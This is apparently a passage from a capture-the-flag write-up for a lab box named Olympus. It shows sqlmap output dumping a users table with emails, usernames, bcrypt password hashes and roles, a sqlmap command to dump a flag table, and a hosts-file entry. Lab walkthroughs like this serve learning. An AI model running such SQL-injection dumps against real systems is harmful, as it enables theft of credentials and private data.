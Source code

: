 ```bash
[INFO] retrieved: user_firstname
[INFO] retrieved: user_lastname
[INFO] retrieved: user_password
[INFO] retrieved: user_email
[INFO] retrieved: user_image
[INFO] retrieved: user_role
[INFO] retrieved: randsalt
[INFO] fetching entries for table 'users' in database 'olympus'
[INFO] fetching number of entries for table 'users' in database 'olympus'
[INFO] retrieved: 3
...
[INFO] retrieved: prometheus@olympus.thm
[INFO] retrieved: prometheus
[INFO] retrieved: 3
[INFO] retrieved:
[INFO] retrieved:
[INFO] retrieved: prometheus
[INFO] retrieved: $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C
[INFO] retrieved: User
[INFO] retrieved: dgas
[INFO] retrieved: root@chat.olympus.thm
[INFO] retrieved: root
[INFO] retrieved: 6
[INFO] retrieved:
[INFO] retrieved:
[INFO] retrieved: root
[INFO] retrieved: $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK
[INFO] retrieved: Admin
[INFO] retrieved: dgas
...

```

![image](https://github.com/user-attachments/assets/b22f11e1-1caa-437f-b828-c3a1322e50b2)

![image](https://github.com/user-attachments/assets/2dca96ec-1fe2-4e2b-9563-c806da479d93)

![image](https://github.com/user-attachments/assets/c07efc5e-0af4-4508-9aed-e960b25a8878)


```bash
:~# sqlmap -r re --dump --batch -T flag -D olympus
...

```

![image](https://github.com/user-attachments/assets/54dfccdd-5754-49e7-8f38-bae3f4d20303)


<h3>/etc/hosts</h3>

```bash
TargetIP olympus.thm chat.olympus.thm
```
